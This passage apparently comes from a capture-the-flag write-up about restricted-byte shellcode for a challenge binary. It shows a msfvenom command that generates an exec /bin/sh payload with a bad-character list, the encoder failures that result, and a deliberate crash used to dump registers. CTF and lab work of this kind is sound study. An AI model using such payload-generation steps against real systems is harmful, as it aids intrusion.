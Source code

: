 ```
db 0x7d XX jge
db 0x7e XX jg
```

As a sanity check I tried making shellcode with just these bytes and `msfvenom`, but as I suspected the problem was not that easy and couldn't generate shellcode for me automatically.

```
$ msfvenom -p linux/x86/exec CMD=/bin/sh -f python -b '\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x21\x22\x23\x24\x25\x26\x2b\x2c\x2e\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3b\x3f\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4c\x4d\x4e\x50\x51\x52\x53\x54\x55\x57\x58\x59\x5a\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x86 from the payload
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with An encoding exception occurred.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=25, char=0x08)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor failed with A valid encoding key could not be found.
Attempting to encode payload with 1 iterations of x86/countdown
Error: No valid set instruction could be created!
```

As a last piece of information gathering, I intentionally crashed the program around the 'jmp eax (shellcode)' instruction to see what the initial register values were when we jumped to the shellcode.

```
$ echo -e '\x00\x00\x00\xff' | LD_PRELOAD=/lib32/libSegFault.so ./chal 
Looks like valid ASCII art to me!!
*** Segmentation fault
Register dump:

 EAX: f7be3000   EBX: 565fffbc   ECX: 00000000   EDX: f7eb989c
 ESI: f7eb8001   EDI: 00000000   EBP: ff936dd8   ESP: ff936dab

 EIP: f7ce3004   EFLAGS: 00010282

 CS: 0023   DS: 002b   ES: 002b   FS: 0000   GS: 0063   SS: 002b

 Trap: 0000000e   Error: 00000006   OldMask: 00000000
 ESP/signal: ff936dab   CR2: 00000000

 FPUCW: ffff037f   FPUSW: ffff0000   TAG: ffffffff
 IPOFF: 00000000   CSSEL: 0023   DATAOFF: 0000ffff   DATASEL: 002b

 ST(0) 0000 0000000000000000   ST(1) 0000 0000000000000000
 ST(2) 0000 0000000000000000   ST(3) 0000 0000000000000000
 ST(4) 0000 0000000000000000   ST(5) 0000 0000000000000000
 ST(6) 0000 0000000000000000   ST(7) 0000 0000000000000000

Backtrace:

Memory map:

565fe000-565ff000 r-xp 00000000 08:01 1056502                            /home/john/elvishart/chal
565ff000-56600000 r--p 00000000 08:01 1056502                            /home/john/elvishart/chal
```